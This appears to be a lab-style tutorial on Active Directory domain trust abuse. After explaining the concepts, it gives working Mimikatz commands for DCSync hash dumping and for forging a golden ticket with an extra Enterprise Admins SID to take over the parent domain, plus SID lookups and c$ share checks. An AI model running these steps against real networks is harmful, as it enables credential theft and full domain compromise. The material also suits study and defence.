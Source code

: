 Domain Trusts are a mechanism for users in the network to gain access to other resources in the domain. For the most part, trusts outline how the domains inside of a forest communicate with each other.<br>
There are two main types of trusts that can be configured between domains:

    Directional - The direction of the trust flows from a trusting domain to a trusted domain (one-Way Trust,Two-Way Trust).
    Transitive - If Domain A trusts Domain B and Domain B trusts Domain C, then Domain A will also trust Domain C, creating a chain of trust.
The trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.<br> 

**KRBTGT account**

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.<br>

**Golden Ticket attack**

In order to forge TGTs, we need the following information:

    The FQDN of the domain
    The Security Identifier (SID) of the domain
    The username of the account we want to impersonate
    The KRBTGT password hash

we need to dump all NTML hashes including the krbtgt account using ```mimkatz```:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync
```

**Inter-Realm TGTs**


If the client requested a TGS to a certain service with his authenticated TGT and this service within another domain (there is a bid trust between them), the Domain controller belongs to his domain will issue a special TGT called an Inter-Realm or Referral Ticket. This ticket is encrypted with the **trust key** between the two domains and contains the user's principal name, the realm name of the domain where the service resides, and the requested service.
 In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.<br>
We will include extra account SIDs of administrative group to grant Administrative privileges over the entire forest!.<br>

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of this administrative group as an extra SID to our forged ticket for the domain controller of the child domain.<br>

Before we can go into exploitation, we first need to recover two SIDs:

    The SID of the child domain controller, which we will impersonate in our forged TGT
    The SID of the Enterprise admin group in the parent domain, which we will add as an extra SID to our forged TGT

To recover the SID of the child domain controller:
```
Get-ADComputer -Identity "<TheChildDomainController>"
```
To recover the SID of the Enterprise admin group:
```
Get-ADGroup -Identity "the Enterprise admin group" -Server <ParentDOmain>
```
**Exploiting Domain Trusts**

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:<DOmainName> /sid:<OfTheChildDomainController> /service:krbtgt /rc4:<hash of krbtgt> /sids:<SID of Enterprise admin group> /ptt
```

First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:
```
C:\>dir \\ChildDomain.local\c$
```

This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:
```
C:\>dir \\ParentDomain\c$\
```



